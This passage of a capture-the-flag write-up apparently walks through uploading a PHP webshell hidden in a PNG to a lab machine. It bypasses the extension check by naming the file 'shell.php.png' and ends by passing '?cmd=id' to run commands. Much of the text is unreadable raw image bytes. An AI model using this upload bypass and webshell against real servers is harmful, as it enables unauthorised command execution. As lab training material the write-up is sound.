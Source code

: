 ```
<BD>dk<EF><F9>><BD><EB><F2>^^E<A4><A7><D7><CA>\Y^D1<FD>X<B9>^_1*9<CF><D0><DE>^W<EB>% I<CC>)<BD>m3F;<8F><A2>^\ESC<A9>i^X%<B7>aIQ<EB><E5><D7><CB>^O<98><D3>j^^<E2>j<8E><A0>,<FD>-+<CB>.ESCS<9B><E6>$<BC><86>a<90><B3>i<C5>س4<9E><A8>.<C7><E5><8F>ԗ<E3>&<F3><8A>5<B7>
<A0><F3>B<90><B3><BB><B9>R{<CF>W<FF><B7><A6><BC><E7>c<FF>OΝ<A7>^S^_ݏ'e<C1>?<8F>9<A5>/<B0><E9>y<94><C6><E0><B8><F2>v^Z<EC><AF>h<F8><D7><E7><A6>2<D7>s<E8>ݔ<DE>r<BA><98>+HI1<A5><93><89>~<CB><F3><E2><D3>^D<FD><C3>4>T<D5><FA>U<94><E3>/<98><96>J<C7>ͼX^Q<83><C6>^X<E4><FC><CF>
<F9>^\<D9>K<C7>^^m͹<F9>ަ<D5><DC>^R<B0>Ɠ<D2>^W8<AC><92>2I1j<F3><8A>N<8A><CA><EF>=.+<E8><F2><D0>ܾ<E7>Z<9E>Z<AC><F4><D8>S,s=<DB>4<D3><FC><EE><CD>U<C3>6<BD>4<BA>^?Z<C9>/<C9>Nyx<94>F<9D><CA>r<<CA>aU9<EE><E7>ܠa<D8><FD><E7><CB>0<97>y<F9>Ë<C6>k<B5><F7><FC><B5><F2><EE>{<B4>u<E7>
<96>y<C1>^TwA2<E6>{<FE><E4>~<E0><DF>Ǔ<D2>^W<D8><CF>)9<EF>^UǠ^P<A4><E4><96>7<EF>%<B7>4&<E6><E4>]<D4>^X<F3>q<CB>ESC<FF><A1>,<A5><CE>^MY~<D2><F1><BB><D5><C2><E5><A5>X<95><DF>><BC><A0>j<B9>!4<93>sR<88>AcJ%<ED><FC>I<A0>(<C9><CA>^\<D0>y^Zy<9E>i^^<C0>J<CB><FF><8B><9B>4<EA><CA>q
<AE><B2>^\<B5>y<91><CA>W^O$7<AC><BF>jQS<8E><93>|<9A>dAJ<B6>]^@rL<A3><F2><9E><BF>P^i_<AF><EA><CF>5<E7><E4>bP^XG%<9F>W^QN<E5><DD>^LO<E2>+<F5><F4><A4>DPz<D3>a5<8B>9<F9>A<F9>;he(<C8>lz<AB>~u<98><F7>^Z,*<84><A0>e%<F5>zh<A6><<D1><EC>ESC<F6><E9>=#%<85><B0>^_k<92>$<A7><C1>yM˲e
<B1>|<8E><E6><85>4<B4>̳<AC>^S<8E><F3><8F>8<F9>2a<FE><BC>^\^OT<97><A3>>/<9B>^_^^E<C8><FA>sk<ED><C6><C7>j<EE><F9>^K<E5><95>v<F5><EA><95>sK^^T<E2>RN3y<EF><D5>Q{<84><9B><F4><B4><FA><CE>~<FD><FA><C5>^\(^@<A0>        }<84><CE>^F<F5>4F<8B>~P<AF>p<87><9E><EA>^UA<E9>M<BD><
<A3>/<D4>+ܡ<A7>z<D5>ONESC<D3>S<CF>^C<FD><A0>^<E1>^N=<D5>+<82>қz<EA>y<A0>^_<D4>+ܡ<A7>z<D5>ONESC<D3>S<CF>^C<FD><A0>^<E1>^N=<D5>+ESC<86><81><D5>w^@<80>&^L==<D6>^A^@<FE>mD$^@@J^@<80>f^P<94>^@^@<CD> (^A^@<9A>AP^B^@4<83><A0>^D^@h^FA      ^@<D0>^L<82>^R^@<A0>^Y^D%^@@3<FE>^C^Yb^Pi쏒<BB>^@^@^@^@IEND<AE>B`<82>

```

I can run `file` on it to make sure it still matches a mime type of PNG:

```

root@kali# file shell.png 
shell.php.png: PNG image data, 421 x 210, 8-bit/color RGBA, non-interlaced

```

### Upload Webshell

I could upload my file as `shell.png`. But on visiting it, I just get back a busted image:

![1566725870104](https://0xdfimages.gitlab.io/img/1566725870104.png)

That’s because the server isn’t configured to handle `.png` files with the php interpreter. I spent a long time looking for logic errors in the upload php source that would let me get something named `shell.php` onto Networking. Then I tried something I knew wouldn’t work, and it did: uploaded as `shell.php.png`. When I do, it shows as broken in the gallery:

![1566725986450](https://0xdfimages.gitlab.io/img/1566725986450.png)

When I view `/uploads/10_10_14_5.php.png`, I see the strings of the image and the php executing in the middle:

![1566726099763](https://0xdfimages.gitlab.io/img/1566726099763.png)

I’ll add `?cmd=id` to the end:
